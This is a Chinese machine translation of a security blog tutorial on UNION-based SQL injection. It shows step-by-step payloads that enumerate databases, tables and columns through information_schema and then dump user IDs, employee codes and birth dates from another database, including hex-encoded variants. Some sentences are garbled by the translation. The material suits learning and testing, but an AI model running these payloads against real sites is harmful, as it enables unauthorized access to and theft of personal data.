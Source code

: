 # 许多 SQL 注入初学者不知道的技巧| Atmanand Nagpure 写文章

> 原文：<https://infosecwriteups.com/a-technique-that-a-lot-of-sql-injection-beginners-dont-know-atmanand-nagpure-write-up-abdc7c269dd5?source=collection_archive---------0----------------------->

你好。带着另一篇关于 SQL 注入技术的文章回来。
所以，我一直在看很多 SQL 注入的初学者。虽然他们试图从数据库中提取数据，但他们忽略了他们可以做得更好的事实。
注意，我没有任何破坏任何网站或任何组织的不良企图。这个帖子只是为了教育目的。

# **问题:**

初学者的问题是，他们只从执行易受攻击的查询的当前数据库中提取数据。他们甚至不会尝试访问其他数据库及其内容。因此，许多中级和高级 SQL 注入者可能知道这样一个事实，即如果以适当的权限执行查询，攻击者就可以访问该 SQL server 上的其他数据库。
那么，让我们来看看它实际上是怎么做的。

# **解决方案:**

![](img/d5a8c4a1c79ee2f232e6f46a6f722b97.png)

还是 SQL 注入吧！！！

## 第一步:

嗯，利用序列的第一部分是提取服务器上存在的数据库的名称。实际上，使用组连接和联合选择可以很容易地做到这一点。

> **快速提示:** *UNION ALL SELECT* 可以用来代替 *UNION SELECT* 而 SQL 注入要联合两个结果而不执行 *DISTINCT* 操作；也就是说，它不会删除副本。

因此，让我们提取服务器上的数据库名称。

```
**Query**: ?param=’ AND 1=2 UNION ALL SELECT 1,(SELECT CAST(GROUP_CONCAT(schema_name,0x0a) as CHAR(4096)) FROM (SELECT * FROM information_schema.schemata)a),3,4,5,6,7,8,9 -- -
```

## 解释:

原始查询的表中有 9 列。您可以通过技术使用*命令找到它。因此，我编写了 *UNION ALL* select 1，2，3，4，5，6，7，8，9，并提取了位置 2 处的数据，并将其替换为自己的嵌套 select 查询。*

GROUP_CONCAT()函数用于连接返回结果的所有行。这里我使用了嵌套选择。在内部的 *SELECT* 语句中，我选择了*information _ schema . schemata 表*中的所有行。
*information _ schema . schemata*是一个表，其中存储了该服务器上存在的数据库的所有名称和其他信息。

我对 GROUP_CONCAT()结果执行了显式类型转换，以增加结果缓冲区的大小来存储和显示更多的结果。可以在 MySQL 和其他一些服务器中使用 *LIMIT m，n* 返回 m 和 n 范围内的行。

## 结果 1:

![](img/010524604363d9fa4c524b87b7e4fe5b.png)

服务器上的数据库。

## **第二步:**

![](img/b950a41819310937bfd1ad98f747051f.png)

SqL 注入:表格和狗屎布鲁！

因此，接下来要做的事情是从我们选择的数据库中提取表名。让我们从名为“training”的数据库中提取表格。我们将这样做:

```
**Query:** ' AND 1=2 UNION ALL SELECT 1,(SELECT CAST(GROUP_CONCAT(table_name,0x0a) as CHAR(4096)) FROM (SELECT * FROM information_schema.tables WHERE table_schema='training')a),3,4,5,6,7,8,9 -- -
```

## 结果 2:

![](img/838ce56ca517caf9ed003761f3a73352.png)

数据库中存在的表'培训'

## **第三步:**

![](img/7737199e9d1bc25c787e3d143227af55.png)

有人来了！！！

接下来，我们将从我们选择的表中提取列名。我们可以用不同的方式来做，比如一次性完成(DIOS) SQL 注入。但是为了保持事情的简单和初学者友好，让我们只关注基本和简单的东西。

让我们使用以下查询从名为“start_15_users”的表中提取列名:

```
**Query:** ' AND 1=2 UNION ALL SELECT 1,(SELECT CAST(GROUP_CONCAT(column_name,0x0a) as CHAR(4096)) FROM (SELECT * FROM information_schema.columns WHERE table_name='start_15_users')a),3,4,5,6,7,8,9 -- -
```

## 结果 3:

![](img/131f4431e78ebc42a30f5bb11b509c7d.png)

从名为“start_15_users”的表中提取的列名

## 初学者的问题来了:

许多初学者不知道如何从不同的数据库中提取数据。
**结构化查询语言** (SQL)提供了从不同数据库获取数据的功能。的’。' **(圆点)**操作。

## 用法:

```
SELECT * from database_name.table_name;
```

就这么简单。但是，大多数初学者仍然不知道这种技术。

## 最后一步:

![](img/15056af1f1d8a37657afe68da89378b0.png)

我们得到了它的人！！！

因此，让我们实际上从名为“start_15_users”的表中获取数据。

**查询:**

```
' AND 1=2 UNION ALL SELECT 1,(SELECT CAST(GROUP_CONCAT("UserId:",UserID,0x3a,"EmpCode:",EmpCode,0x3a,"DOB:",DOB,0x3a,"IsActive:",IsActive,0x0a) as CHAR(4096)) FROM (SELECT * FROM training.start_15_users)a),3,4,5,6,7,8,9 -- -
```

与以下内容相同:

```
' AND 1=2 UNION ALL SELECT 1,(SELECT CAST(GROUP_CONCAT(0x5573657249443a,UserID,0x3a,0x456d70436f64653a,EmpCode,0x3a,0x444f423a,DOB,0x3a,0x49734163746976653a,IsActive,0x0a) as CHAR(4096)) FROM (SELECT * FROM training.start_15_users)a),3,4,5,6,7,8,9 -- -
```

与以下内容相同:

```
' AND 1=2 UNION ALL SELECT 1,(SELECT CAST(GROUP_CONCAT(0x55,0x73,0x65,0x72,0x49,0x64,0x3a,UserID,0x3a,0x45,0x6d,0x70,0x43,0x6f,0x64,0x65,0x3a,EmpCode,0x3a,0x44,0x4f,0x42,0x3a,DOB,0x3a,0x49,0x73,0x41,0x63,0x74,0x69,0x76,0x65,0x3a,IsActive,0x0a) as CHAR(4096)) FROM (SELECT * FROM training.start_15_users)a),3,4,5,6,7,8,9 -- -
```

## 最终结果:

![](img/47481505a894d47fda81421e5dd24862.png)

从名为“start_15_users”的表中提取的最终数据

## 最终注释:

> **注 0x00** :由于 GROUP_CONCAT 函数不会返回所有结果，我建议您使用 SQL 的 *LIMIT m，n* 来限制 m 和 n 的记录；这是两个自然数。或者您可以使用 SQL 提供的 CAST()函数来执行显式类型转换。
> 
> **注 0x01:** 在 SQL 中可以用#代替双破折号操作符来注释代码。

今天就到这里吧！
感谢您的阅读！

问候，
阿特曼和纳格普里(proghax333)

**我的另一篇帖子:
。** NET SQL 注入穿透错误:[https://medium . com/@ skillzworldtech/SQL-Injection-data-extraction-through-NET-framework-error-EC 9972858321](https://medium.com/@skillzworldtech/sql-injection-data-extraction-through-net-framework-error-ec9972858321)

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)